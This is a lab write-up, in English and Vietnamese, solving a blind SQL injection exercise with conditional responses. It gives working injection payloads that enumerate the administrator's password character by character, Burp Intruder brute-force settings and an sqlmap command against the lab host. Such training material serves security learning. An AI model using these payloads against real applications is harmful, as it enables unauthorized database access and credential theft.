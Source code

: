 # Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


# Overview

Ở lab này có lỗ hổng blind SQL. Application này sử dụng tracking cookie để phân tích, và biểu diễn SQL query gồm các giá trị cookie được nhập vào.Kết quả của cuộc truy vấn không được trả lại, và không error messages được hiện lên. Nhưng ứng dụng thì bao gồm tin nhắn `Welcome back` ở trang web nếu query trả lại.

Ta cần đăng nhập vào administrator user

Form lab

![image](https://user-images.githubusercontent.com/115911041/232667041-aaff9df7-e91e-4d6b-8680-a669c9d984f5.png)

# Solution

**Confirm vulnerable parameter**

Bởi vì là blind SQL, ta không thể thấy bất kì kết quả của cuộc truy vấn. Tuy nhiên, bởi vì chúng ta có thể request có cho phép dành cho các câu trả lời `True` hoặc `False` 

Bước đầu tiên, ta cần xác định lỗ hổng bằng cách đưa requests cho ra câu trả lời `True` hoặc `False`

**Query**

Query được sử dụng trong lab này sẽ như thế này
```
SELECT trackingId FROM someTable WHERE trackingID = '<COOKIE_VALUE>'
```

![image](https://user-images.githubusercontent.com/115911041/232670060-97d3b04a-285a-4315-a488-aecb2cdd0a52.png)

`Cookie TrackingId=oLNIUOwSGHWlzJH1; session=7B6p6OLLq4GUkMRhCwcZQprHcyc8CRzH`

Ta thấy có xuất hiện `Welcome back` ở phần Response

**True**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=1--'
```
![image](https://user-images.githubusercontent.com/115911041/232671266-492e4f61-95d9-433a-8a83-2950e05a114f.png)
Ta thấy có xuất hiện `Welcome back` ở phần Response

**False**
```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=2--'
```
![image](https://user-images.githubusercontent.com/115911041/232671623-2118d0f1-95ab-4c58-b95d-9759a0b7d022.png)
Không thấy xuất hiện `Welcome back`

**Confirm expected table**

Đầu tiên, mình xác nhận table `users` có tồn tại hay không. Lần này, mình sử dụng string dạng chữ từ table và so sánh nó.

``` 
SELECT trackingID FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select 'x' from users LIMIT 1)='x'--
```
![image](https://user-images.githubusercontent.com/115911041/232673130-8aab11dc-aa5c-4857-a2a0-db5988c96dd2.png)

Có kết quả `Welcome back`

**Verify columns exit as excepted**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select username from users where username='administrator')='administrator'--
```
![image](https://user-images.githubusercontent.com/115911041/232674592-c908658c-b912-47be-b4ed-bf710bd5b3f9.png)

Xuất hiện `Welcome back`

**Get the length of the password**

Tìm dộ dài của password.Ở đây, chúng ta sử dụng hàm `LENGTH` của database và so sánh nó với số.

![image](https://user-images.githubusercontent.com/115911041/232674862-29620f44-9689-478f-b8dc-2255dcf0e2cb.png)

Không cho ra `Welcome back`, password không có độ dài là 1

Thay vào đó, mình có thể kiểm tra lớn hơn thay vì bằng. Ở kết quả `Welcome back` nghĩa là password có độ dài lớn hơn 1.

Brute force độ dài với Burp Intruder (Sniper, Payload 1)

![image](https://user-images.githubusercontent.com/115911041/232675581-22e6d236-256a-4f15-8286-2d40ef956497.png)

![image](https://user-images.githubusercontent.com/115911041/232675635-5a1aa5b2-e598-4425-8184-caa3d4635c58.png)

Sau đó attack, kiểm tra request nào xuất hiện `Welcome back` thì sẽ ra độ dài của password ở vị trí đó. Mình thì độ dài là 20.

**Enumerate password of the administrator**

Ta đã có độ dài của password, bây giờ đã có thể brute force từng kí tự. Nếu database có lưu trữ hàm hash của password, ta có thể extract hash để cracking offline.

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select substring(password,1,1) from users where username='administrator')='a'--
```
![image](https://user-images.githubusercontent.com/115911041/232677055-c0e64e5e-498a-4551-80db-8c930243ed3e.png)

Ta nhận ra rằng kí tự đầu tiên không phải là `a`, sử dụng Burp Intruder để Brute Force

Attack type: ***Cluster bomb***

![image](https://user-images.githubusercontent.com/115911041/232677551-c4da07a3-98e5-4fb6-989e-1137856b9439.png)

***Payload 1: numeric squential, 1..20***
***Payload 2: Brute force

![image](https://user-images.githubusercontent.com/115911041/232677811-97a163e8-2bfe-450e-867f-d64e8111da07.png)

Theo như số thứ tự của payload 1 sẽ cho ra password:
`iwdzus40xqlsq8zms6v0`

**Tiến hành đăng nhập**

![image](https://user-images.githubusercontent.com/115911041/232678012-ab200efa-8465-4749-b2cf-f941c9ecf68b.png)

# SQL map:

Ta vẫn làm giống cách Burp Suite. Dựa vào lỗ hổng ở phần category. Truy cập vào mục bất kì, sau đó list toàn bộ database bằng sqlmap

`python3 sqlmap.py -u "https://0a41004804f8311284e6eb0e00cd00b8.web-security-academy.net/filter?category=Corporate+gifts" --dbs`




